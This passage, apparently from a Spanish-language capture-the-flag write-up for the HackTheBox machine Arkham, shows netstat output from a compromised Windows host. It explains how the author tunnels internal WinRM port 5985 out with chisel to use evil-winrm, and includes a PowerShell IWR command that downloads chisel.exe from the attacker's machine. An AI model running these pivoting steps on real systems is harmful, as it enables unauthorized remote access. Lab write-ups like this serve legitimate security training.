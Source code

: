 ```powershell
c:\Users\Alfred\Videos>netstat -a
netstat -a

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             ARKHAM:0               LISTENING
  TCP    0.0.0.0:135            ARKHAM:0               LISTENING
  TCP    0.0.0.0:445            ARKHAM:0               LISTENING
  TCP    0.0.0.0:5985           ARKHAM:0               LISTENING
  TCP    0.0.0.0:8009           ARKHAM:0               LISTENING
  TCP    0.0.0.0:8080           ARKHAM:0               LISTENING
  TCP    0.0.0.0:47001          ARKHAM:0               LISTENING
  TCP    0.0.0.0:49664          ARKHAM:0               LISTENING
  TCP    0.0.0.0:49665          ARKHAM:0               LISTENING
  TCP    0.0.0.0:49666          ARKHAM:0               LISTENING
  TCP    0.0.0.0:49667          ARKHAM:0               LISTENING
  TCP    0.0.0.0:49668          ARKHAM:0               LISTENING
  TCP    0.0.0.0:49669          ARKHAM:0               LISTENING
...
```

Efectivamente, tenemos el puerto **5985** que generalmente sirve el servicio [WinRM](https://geeks.ms/eliasmereb/2011/04/14/introduccin-a-winrm-para-windows-server-2008-r2/) (Windows Remote Management) el cual entre muchas cosas brinda una interfaz de comandos para realizar tareas de administración en el sistema. Hay una utilidad conocida y muy linda llamada [evil-winrm](https://github.com/Hackplayers/evil-winrm) que explota el servicio para proveer una PowerShell completamente interactiva. Pero no podemos usarla así de la nada, ya que el puerto está sirviendo, pero internamente, entonces juguemos con [chisel](https://github.com/jpillora/chisel) para generar un **Remote Port Forwarding**, permitiendo así que el puerto **5985** de la máquina **10.10.10.130** (internamente **127.0.0.1**) se convierta en un puerto cualquiera de nuestra máquina atacante (**10.10.14.14**), entonces podremos acceder al puerto desde nuestro sistema y lograr ejecutar **evil-winrm**.

* [Explicación tipos de reenvios de puertos (port forwarding) mediante *SSH*. (Quedense con las definiciones :P)](https://www.zonasystem.com/2019/01/tunel-ssh-port-forwarding-local-remote-dynamic.html).

### Remote Port Forwarding

Subamos el binario [chisel](https://github.com/jpillora/chisel) a la máquina Windows:

* Descargamos el comprimido para Windows: [chisel_1.7.6_windows_amd64.gz](https://github.com/jpillora/chisel/releases/tag/v1.7.6).
* Descomprimimos y cambiamos nombre a uno más sencillo.exe :P
* Descargamos el comprimido para Linux: [chisel_1.7.6_linux_amd64.gz](https://github.com/jpillora/chisel/releases/tag/v1.7.6).
* Descomprimimos y cambiamos nombre a otro más sencillo :)
* Subimos el binario `.exe` a la máquina: `powershell IWR -uri http://10.10.14.14:8000/chisel.exe -OutFile chisel.exe`.
* Validamos que la version de los dos binarios sea la misma simplemente ejecutandolos: **Version: 1.7.6 (go1.16rc1)**.

